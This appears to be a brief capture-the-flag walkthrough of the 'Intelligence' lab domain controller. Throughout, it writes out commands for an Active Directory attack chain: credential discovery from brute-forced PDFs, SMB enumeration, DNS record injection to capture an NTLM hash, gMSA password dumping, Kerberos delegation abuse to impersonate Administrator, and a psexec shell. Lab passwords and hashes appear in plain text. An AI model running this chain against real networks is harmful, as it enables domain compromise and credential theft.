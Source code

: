 # Intelligence

So, the usual domain controller ports are open

after looking at some usual AD things for some time, like SMB shares, ASREP roasting, lookupsids.py, none of them seem to have worked

now, lets do a bit of web enum

so the documents that we have on the site have a format on them, so we can try to see if there are more files in those format

`python3 sc.py > pdflist`

lets bruteforce this with ffuf, we got a bunch of pdf files, out of which, one of them gives us the creds for a molina user

`pdf:tiffany.molina:NewIntelligenceCorpUser9876`

so user is as simple as this, lets have a look at smbmap

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876'`

we have read access on IT and USers \(which are the only useful ones\), so the Users dir gives us the user flag if we do

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876' -R Users -A user.txt`

R names a share, and A names the files with that name to be picked up

we got some creds, now,

`rpcclient 10.10.10.248 -U 'tiffany.molina'` with her password gives us some flexibility to enumerate

lets save users to users files

we see a script in smb share for tiffany, so the script is basically querying the ADDS database for objects and grepping for a name of web\*

`python3 dnstool.py -u intelligence.htb\\tiffany.molina -p NewIntelligenceCorpUser9876 -a add -r webxxx.intelligence.htb -d 10.10.14.77 10.10.10.248`

got the ntlm for ted, and his password

lets do ldapdomaindump, we find the svc\_int is allowed to do kerberos deleagtion

if we run

3d3f5b98dd8e79086165990f2b1707f5 b3a2dc11db1f8b39ae21ac970ed3144a

`python3 gMSADumper.py -u ted.graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248`

```text
Users or groups who can read password for svc_int$:
> DC$
> itsupport
svc_int$:::47e89a6afd68e3872ef1acaf91d0b2f7
```

this is called Kerberos delegation

`getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator -dc-ip 10.10.10.248 intelligence.htb/svc_int -hashes 47e89a6afd68e3872ef1acaf91d0b2f7:47e89a6afd68e3872ef1acaf91d0b2f7`

the first part of this hash is pretty useless

```text
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass -dc-ip 10.10.10.248 intelligence.htb/Administrator@10.10.10.248
```

